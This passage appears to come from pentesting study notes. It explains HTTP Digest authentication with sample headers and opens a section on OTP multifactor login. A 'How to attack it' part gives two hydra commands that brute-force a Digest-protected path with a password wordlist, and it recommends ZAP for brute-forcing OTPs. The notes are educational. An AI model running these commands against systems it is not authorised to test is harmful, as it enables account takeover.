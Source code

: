 ```
WWW-Authenticate: Digest realm="Example", qop="auth", nonce="dcd98b7102dd2f0e8b11d0f600bfb0c093", opaque="5ccc069c403ebaf9f0171e9517f40e41"

# Where:
# - **realm**: A descriptive string indicating the protection space (usually the name of the application or service).
# - **qop (Quality of Protection)**: Specifies the quality of protection. Commonly set to "auth."
# - **nonce**: A unique string generated by the server for each request to prevent replay attacks.
# - **opaque**: An opaque value set by the server, which the client must return unchanged in the response.
```

- **Client Response**: The client constructs a response using the following components: Username, Realm, Password, Nonce, Request URI (the path to the protected resource), HTTP method (e.g., GET, POST), cnonce (a client-generated nonce), qop (the quality of protection), H(A1) and H(A2), which are hashed values derived from the components. It then calculates a response hash (response) based on these components and includes it in an Authorization header. Example Authorization header:

```
Authorization: Digest username="user", realm="Example", nonce="dcd98b7102dd2f0e8b11d0f600bfb0c093", uri="/resource", qop=auth, nc=00000001, cnonce="0a4f113b", response="6629fae49393a05397450978507c4ef1", opaque="5ccc069c403ebaf9f0171e9517f40e41"
```

- **Server Validation**: The server receives the request with the Authorization header and validates the response hash calculated by the client. It does this by reconstructing the same components and calculating its own response hash. If the hashes match, the server considers the client authenticated and grants access to the requested resource.

### How to attack it

We can use [hydra](../hydra.md).

```bash
hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt http-get://192.155.195.3/digest/

hydra 192.155.195.3 -l admin -P /root/Desktop/wordlists/100-common-passwords.txt http-get /digest/
```


## Multifactor Authentication

### OTP

OTP (One-Time Password) security is a two-factor authentication (2FA) method used to enhance the security of user accounts and systems. OTPs are temporary, single-use codes that are typically generated and sent to the user's registered device (such as a mobile phone) to verify their identity during login or transaction processes. The primary advantage of OTPs is that they are time-sensitive and expire quickly, making them difficult for attackers to reuse.

For bruteforcing OTPs OWASZAP is more recommended since it does not introduce delays or throttling.

#### Types of OTPs
